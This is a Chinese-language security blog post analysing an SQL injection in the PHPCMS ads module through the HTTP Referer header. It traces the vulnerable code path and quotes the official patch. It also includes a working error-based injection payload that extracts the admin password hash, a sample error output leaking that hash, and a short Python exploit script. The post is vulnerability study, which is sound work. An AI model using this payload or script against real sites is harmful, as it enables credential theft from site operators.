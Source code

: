 ```yaml
---
title: 一个SQL注入案例
date: 2016-05-24 19:39:11
categories: 安全
tags: [Web安全,SQL注入]
---
```


参考： http://www.ichunqiu.com/section/405  
在i春秋看到的，学习一下。  
<!--more-->
漏洞出现位置：

/ads/include/ads_place.class.php
function show中
```
function show($placeid)
{
  ...
  if($adses[0]['option'])
  {
    foreach($adses as $ads)
    {
      $contents[] = ads_content($ads, 1);
      $this->db->query("INSERT INTO $this->stat_table (`adsid`, `username`, `ip`, `referer`, `clicktime`, `type`) VALUES ('$ads[adsid]', '$_username', '$ip', '$this->referer', '$time', '0')");
      $template = $ads['template'] ? $ads['template'] : 'ads';
    }
  }
  else
  {
    $ads = $this->db->get_one("SELECT * FROM ".DB_PRE."ads a, $this->table p WHERE a.placeid=p.placeid AND p.placeid=$placeid AND a.fromdate<=UNIX_TIMESTAMP() AND a.todate>=UNIX_TIMESTAMP() AND a.passed=1 AND a.status=1 ORDER BY rand() LIMIT 1");
    $contents[] = ads_content($ads, 1);
    $this->db->query("INSERT INTO $this->stat_table (`adsid`, `username`, `ip`, `referer`, `clicktime`, `type`) VALUES ('$ads[adsid]', '$_username', '$ip', '$this->referer', '$time', '0')");
    $template = $ads['template'] ? $ads['template'] : 'ads';
  }
  include template('ads', $template);
}
在此处的数据插入处，未对$this->referer过滤。
```
```
$this->db->query("INSERT INTO $this->stat_table (`adsid`, `username`, `ip`, `referer`, `clicktime`, `type`) VALUES ('$ads[adsid]', '$_username', '$ip', '$this->referer', '$time', '0')");
```
其中，` $this->referer = HTTP_REFERER`   
HTTP_REFERER定义为
`define('HTTP_REFERER', isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : '');`  
所以$this->referer就是http请求头中所带的referer字段。  


但是$this->referer无法直接由用户控制。
通过查找。在/ads/include/common.inc.php中包含了ads_place.class.php文件
```
require substr(MOD_ROOT, 0, -1-strlen($mod)).'include/common.inc.php';
require MOD_ROOT.'include/global.func.php';
require MOD_ROOT.'include/ads_place.class.php';
require MOD_ROOT.'include/ads.class.php';
```
继续查找，在/ads/ad.php中包含了common.inc.php文件。
```
require './include/common.inc.php';
```
继续，在data/js.php中，包含了ad.php
```
<?php
chdir('../ads/');
require './ad.php';
?>
```
所以只要向ad.php插入referer字段，就可以到达注入的目的。
playload
```
1',(select 1 from (select count(*),concat(floor(rand(0)*2),char(45,45,45),(select password from phpcms_member limit 1))a from information_schema.tables group by a)b),'0')#
```
结合起来就是

```
INSERT INTO $this->stat_table (`adsid`, `username`, `ip`, `referer`, `clicktime`, `type`) VALUES ('$ads[adsid]', '$_username', '$ip', '1',(select 1 from (select count(*),concat(floor(rand(0)*2),char(45,45,45),(select password from phpcms_member limit 1))a from information_schema.tables group by a)b),'0')#', '$time', '0')
```
解释：
从最里面开始

(select password from phpcms_member limit 1)
结果：5c177f35077e9e0a4a5f7cb4dbc96937   
即phpcms管理员密码MD5

`select count(*),concat(floor(rand(0)*2),char(45,45,45),(select password from phpcms_member limit 1))a from information_schema.tables group by a`

`floor(rand(0)*2)`//生成随机数
concat//SQL CONCAT函数用于将两个字符串连接起来，形成一个单一的字符串。
char(45,45,45)将ASCII 码转换为字符。 即---
`concat(floor(rand(0)*2),char(45,45,45),5c177f35077e9e0a4a5f7cb4dbc96937)`
即1---5c177f35077e9e0a4a5f7cb4dbc96937
`count(*)//COUNT(*)` 函数返回表中的记录数
关于报错注入的原理，参考
["Mysql报错注入原理分析(count()、rand()、group by)"](http://drops.wooyun.org/tips/14312
)
简单的来说，查询过程中，会建立虚表，`floor(rand(0)*2)`会被执行多次，导致插入主键重复而出错。

查询语句为：
```
 INSERT INTO phpcms_ads_1605 (`adsid`, `username`, `ip`, `referer`, `clicktime`, `type`) VALUES ('', '', '222.182.99.248', '1',(select 1 from (select count(*),concat(floor(rand(0)*2),char(45,45,45),(select password from phpcms_member limit 1))a from information_schema.tables group by a)b),'0')#', '1462786486', '0')
```
报错结果:
MySQL Error : Duplicate entry '1---5c177f35077e9e0a4a5f7cb4dbc96937' for key 'group_key'

官方补丁：
```
//对数据进行过滤
  $referer = safe_replace($this->referer);
```
附个脚本
```
import requests
url = 'http://xxx.com/ads/ad.php?id=1'
playload = "1',(select 1 from (select count(*),concat(floor(rand(0)*2),char(45,45,45),(select password from phpcms_member limit 1))a from information_schema.tables group by a)b),'0')#"
header = {'Referer': playload, }
result = requests.get(url, headers=header)
print(result.text)
```
